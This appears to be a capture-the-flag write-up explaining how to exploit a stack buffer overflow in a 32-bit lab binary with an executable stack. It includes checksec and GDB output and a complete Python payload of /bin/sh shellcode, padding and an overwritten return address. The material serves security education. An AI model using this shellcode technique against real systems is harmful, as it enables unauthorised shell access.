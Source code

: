 ```yaml
---
description: Writing shellcode, but the buffer isn't provided?
---
```


# shell

{% file src="../../.gitbook/assets/shell.zip" %}

This binary is arguably more complex than `location`, and will be a lot more annoying. We'll understand why this is the case in a minute, but it lives up to the description that shellcodes may not be a good solution in all cases.

### Security Measures

Checking security, we see that

```nasm
$ checksec shell
[*] '/home/joybuzzer/Documents/vunrotc/public/02-shellcodes/shell/src/shell'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

We notice the stack is executable, meaning that shellcode is a possibility. The existence of a buffer overflow means that we can overwrite the return address of the function to jump to our shellcode.

We note that PIE is turned off. For the sake of simplicity, ASLR is turned off on the remote server, meaning that addresses will be static. This means that the write location is going to be static.

### Static Analysis

Checking the functions of the binary, it seems that `main()` and `read_in()` are the only functions that aren't standard library functions. Since there is no `win()`, we need to get the flag another way. We choose to pop a shell because (1) the stack is executable, (2) the stack is smashable, and (3) we can't get the flag any other way.

We see that `read_in()` allocates a buffer that is `0x134` large for our input. This is a _lot_ of room for us to use for shellcode.

### Crafting a Payload

This will be very similar to how it was done in `location`, so many details are omitted.

We use the same shellcode because the code follows the same architecture. We know that we need to adjust the buffer to size `0x138` to reach the return pointer.

The main difference is getting the address to jump. Unlike `location`, we are not provided this address. However, we discussed earlier that the address is statically chosen, meaning we have a tactical advantage. By looking in `gdb` at the location the binary chooses for writing, we have the address.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  p/x $ebp-0x134
$1 = 0xffffd484
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

We use this for our address we jump to. This makes the payload:

```python
payload = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = payload.ljust(0x138, b'A')
payload += p32(0xffffd484)
```

### Sending it Off

Like the other binaries, we define the process and send it off. Just like that, we pop a shell and can `cat flag.txt` to get the flag.

_**Some Final Notes**: This threat model is implausible in reality. Having this many security features disabled is not something you're likely to see. This is more of an intro as to what shellcode is capable of. You should understand the basics of what the shellcode does and then how to execute shellcode against a binary._
